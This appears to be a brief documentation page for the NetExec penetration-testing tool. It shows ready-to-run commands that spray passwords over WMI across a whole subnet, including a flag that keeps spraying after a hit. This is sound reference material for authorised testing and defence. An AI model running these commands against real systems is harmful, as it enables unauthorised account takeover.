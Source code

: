 # Password spraying

### Password spraying

```bash
nxc wmi $TARGET/24 -u $USERFILE -p $PASSFILE
```

By default, nxc will exit after a successful login is found.

### Password spraying (without bruteforce)

```bash
nxc wmi $TARGET/24 -u $USERFILE -p $PASSFILE --no-bruteforce
```

By default, nxc will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Useful for spraying a single password against a large user list.
